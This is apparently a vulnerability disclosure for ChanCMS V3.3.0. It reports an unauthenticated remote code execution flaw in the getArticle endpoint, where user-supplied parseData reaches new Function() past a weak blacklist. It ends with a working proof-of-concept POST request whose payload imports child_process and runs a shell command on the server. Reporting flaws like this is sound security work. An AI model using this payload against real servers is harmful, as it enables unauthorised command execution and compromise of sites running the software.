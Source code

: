 # Vendor

yanyutao0402

# Product

ChanCMS

# version

 V3.3.0

# Download 

https://gitee.com/yanyutao0402/ChanCMS

# Vulnerability

RCE

# Description

Although the code tries to clean up parseData using `safeExecuteUserFunction`, this blacklisting method is usually unreliable.Blacklist filtering can be bypassed,users can execute any system command without logging in.

# Analysis

The `search` method in `app/modules/cms/controller/collect.js`，the `getArticle` method also has a potential remote code execution (RCE) vulnerability. It gets the parseData from the request body and then uses `new Function()` to execute it.
Although the code tries to clean up parseData using `safeExecuteUserFunction`, this blacklisting method is usually unreliable. An attacker may find ways to bypass filtering and thus execute arbitrary JavaScript code. Since this is executed on the server side, it is an RCE vulnerability.

<img width="710" height="278" alt="image" src="https://github.com/user-attachments/assets/78d43a54-3aba-4a5e-97f0-40eafe8e3ead" />

We reproduce this RCE vulnerability

<img width="927" height="340" alt="image" src="https://github.com/user-attachments/assets/0cce3e93-609a-412a-b1f6-59920b31cebd" />

Then we request the 666.txt written to see the execution result of the command:

<img width="390" height="153" alt="image" src="https://github.com/user-attachments/assets/8da33dc0-e934-4176-9617-1ed5ac90b66f" />

Of course, you can also directly play a calculator to verify:

<img width="1276" height="697" alt="image" src="https://github.com/user-attachments/assets/7b0f64e1-473a-4b32-a652-6838a93a1ccd" />


# POC
```
POST /cms/collect/getArticle HTTP/1.1
Host: localhost:3000
Content-Type: application/json
Content-Length: 286

{
  "taskUrl": "http://localhost:3000/favicon.ico",
  "titleTag": "title",
  "articleTag": "body",
  "parseData": "return (async () => { const { execSync } = await import(/* webpackIgnore: true */ 'child_process'); return execSync('whoami>app/public/666.txt').toString(); })()"
}

```
